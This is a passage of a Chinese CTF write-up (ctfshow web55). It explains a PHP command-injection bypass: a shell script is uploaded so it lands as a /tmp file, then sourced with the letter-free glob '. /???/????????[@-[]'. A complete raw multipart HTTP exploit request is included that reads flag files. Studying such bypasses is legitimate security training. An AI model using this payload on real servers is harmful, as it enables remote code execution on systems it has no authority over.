假如我们要执行上传的shell文件，尝试如下：

```shell
. /???/?????????
```

但是我们会发现这样(通常情况下)并不能争取的执行文件，而是会报错，原因就是这样匹配到的文件太多了，系统不知道要执行哪个文件。

但是我们可以使用如下payload：

```shell
. /???/????????[@-[]
```

最后的`[@-[]`表示ASCII在 @ 和 [ 之间的字符，也就是大写字母，所以最后会执行的文件是tmp文件夹下结尾是大写字母的文件。由于PHP生成的tmp文件最后一位是随机的大小写字母，所以我们可能需要多试几次才能正确的执行我们的代码。(50%的几率嘛)

<img src="https://s2.loli.net/2022/12/26/mO6f8C4XEW73SrH.png" alt="img" style="zoom: 50%;" />

因此，我们可以：

```php
POST /?cmd=.+/???/????????[@-[] HTTP/1.1
Host: xxx.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------5642920497686823912130808832
Connection: close
Cookie: UM_distinctid=17424c95164f2-06a0a787df53968-4c302273-144000-17424c9516533d
Upgrade-Insecure-Requests: 1
Content-Length: 291
​
-----------------------------5642920497686823912130808832
Content-Disposition: form-data; name="fileUpload"; filename="dd.txt"
Content-Type: text/plain
​
#! /bin/sh
system('cat /f*');
-----------------------------5642920497686823912130808832--
```

自己构造网页，上传带有shell命令的文件到服务器，并抓包，修改参数为 `.%20/???/????????[@-]]`

这样就可以执行了（注意是在同一个数据包，否则tmp临时文件被删除）





ctfshow-web55可用上述解法





#### 参考文章

[yu师傅-rce脚本](https://blog.csdn.net/miuzzx/article/details/109143413)

[无字母数字webshell总结-先知社区](https://xz.aliyun.com/t/8107#toc-0)

[p神-一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

[p神-无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list)